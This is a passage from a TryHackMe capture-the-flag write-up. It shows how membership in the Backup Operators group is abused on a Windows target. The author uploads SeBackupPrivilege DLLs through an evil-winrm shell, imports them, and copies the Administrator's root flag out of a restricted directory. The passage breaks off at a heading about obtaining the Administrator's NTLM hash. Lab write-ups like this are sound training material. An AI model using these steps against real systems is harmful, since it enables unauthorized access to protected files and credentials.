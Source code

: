 ## What is the root flag?

Back on Bloodhound, we notice that `J.SMITH` is part of the `Backup Operators` group.

![jsmith Backup Operators membership](/images/THM-K2/JSMITH_backup_operators.png)

![Backup Operators group info](/images/THM-K2/Backup_Operators_AD_info.png)
_[Source](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/understand-security-groups#backup-operators)_

On [this HackTricks page](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/privileged-groups-and-token-privileges#backup-operators), we find two different methods to abuse the membership to the `Backup Operators` group. The first method `Local Attack` will help us get the root flag.

1. We need to transfer two necessary dll files: `SeBackupPrivilegeUtils.dll` and `SeBackupPrivilegeCmdLets.dll`. They are available at [this Github](https://github.com/giuliano108/SeBackupPrivilege) repo.

After cloning the repo we send the files to the target via our evil-winrm shell.

```
upload /home/kscorpio/Machines/TryHackMe/K2/K2_Middle_Camp/SeBackupPrivilege/SeBackupPrivilegeCmdLets/bin/Debug/SeBackupPrivilegeCmdLets.dll

upload /home/kscorpio/Machines/TryHackMe/K2/K2_Middle_Camp/SeBackupPrivilege/SeBackupPrivilegeCmdLets/bin/Debug/SeBackupPrivilegeUtils.dll
```

![DLL file uploads](/images/THM-K2/DLLs_uploads.png)

2. Import the libraries

```
Import-Module .\SeBackupPrivilegeUtils.dll
Import-Module .\SeBackupPrivilegeCmdLets.dll
```

![Import DLL](/images/THM-K2/Import_DLLs.png)

3. We can now access and copy files located in restricted directories

```
cd C:\Users\Administrator\

Copy-FileSeBackupPrivilege C:\Users\Administrator\Desktop\root.txt C:\Users\j.smith\Documents\root.txt -Overwrite
```

4. With the commands above we will copy the root flag in `C:\Users\j.smith\Documents`

![Read Rood flag](/images/THM-K2/root_flag_k2MC.png)


## What is the Administrator's NTLM hash?
